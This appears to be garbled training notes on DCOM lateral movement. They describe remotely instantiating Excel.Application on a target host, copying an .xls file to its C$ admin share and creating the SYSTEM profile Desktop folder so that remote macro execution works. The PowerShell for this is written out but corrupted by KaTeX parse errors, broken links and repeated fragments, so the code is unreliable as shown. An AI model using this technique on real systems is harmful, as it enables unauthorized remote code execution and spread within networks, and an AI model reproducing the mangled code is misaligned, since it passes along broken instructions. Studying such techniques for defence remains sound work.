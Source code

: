 ![eacbf526701e8e59c1c68f4135a16115.png](:/356f1d18b595411893837bd94518826a)

Must install Microsoft Office to work

![e14ca8cd90ebfe9df26a40ef243c7a40.png](:/0b09b2488a1847279bd93cf3e68d5a79)

![2740720923bf93debf65acfab719f817.png](:/654a3d7ad75d42a7a27311a43ae3d8a5)

This error occurs because Excel.Application is instantiated through DCOM, which is done with SYSTEM account

SYSTEM does not have a profile. To fix this problem, we can simply create the Desktop folder at C:\\Windows\\SysWOW64\\config\\systemprofile

Create the directory with the following PowerShell code:

> $Path = "[\\\192.168.1.110\\c$
> 
> KaTeX parse error: Undefined control sequence: \\1 at position 12: Path = "\[\\\\\̲1̲92.168.1.110\\\c
> 
> \\Windows\\sysWOW64\\config\\systemprofile\\Desktop\]([file:///\\192.168.1.110\\c$\\Windows\\sysWOW64\\config\\systemprofile\\Desktop)"](file:///%5C192.168.1.110%5Cc$%5CWindows%5CsysWOW64%5Cconfig%5Csystemprofile%5CDesktop%29%22 "file:///%5C192.168.1.110%5Cc$%5CWindows%5CsysWOW64%5Cconfig%5Csystemprofile%5CDesktop)%22")

> $temp = \[system.io.directory\]::createDirectory($
> 
> KaTeX parse error: Undefined control sequence: \\\[ at position 8: temp = \\̲\[̲system.io.direc…
> 
> Path)

Calling the Open method again should now succeed. We can then call the Run method with the following script:

> $com = \[activator\]::CreateInstance(\[type\]::GetTypeFromProgId("Excel.Application", "192 .168.1.110"))

> $LocalPath = "C:\\Users\\jeff_admin.corp\\myexcel.xls"
> 
> $RemotePath = "[\\\192.168.1.110\\c$
> 
> KaTeX parse error: Undefined control sequence: \\1 at position 18: …motePath = "\[\\\\\̲1̲92.168.1.110\\\c
> 
> \\myexcel.xls\]([file:///\\192.168.1.110\\c](file:///%5C192.168.1.110%5Cc)$\myexcel.xls)" \[System.IO.File\]::Copy($
> 
> KaTeX parse error: Undefined control sequence: \\myexcel at position 1: \\̲m̲y̲e̲x̲c̲e̲l̲.xls)" \\\[System…
> 
> LocalPath, $RemotePath, $True)
> 
> $Path = "[\\\192.168.1.110\\c$
> 
> KaTeX parse error: Undefined control sequence: \\1 at position 12: Path = "\[\\\\\̲1̲92.168.1.110\\\c
> 
> \\Windows\\sysWOW64\\config\\systemprofile\\Desktop\]([file:///\\192.168.1.110\\c$\\Windows\\sysWOW64\\config\\systemprofile\\Desktop)"](file:///%5C192.168.1.110%5Cc$%5CWindows%5CsysWOW64%5Cconfig%5Csystemprofile%5CDesktop%29%22 "file:///%5C192.168.1.110%5Cc$%5CWindows%5CsysWOW64%5Cconfig%5Csystemprofile%5CDesktop)%22") $temp = \[system.io.directory\]::createDirectory($
> 
> KaTeX parse error: Undefined control sequence: \\\[ at position 8: temp = \\̲\[̲system.io.direc…
> 
> Path)
> 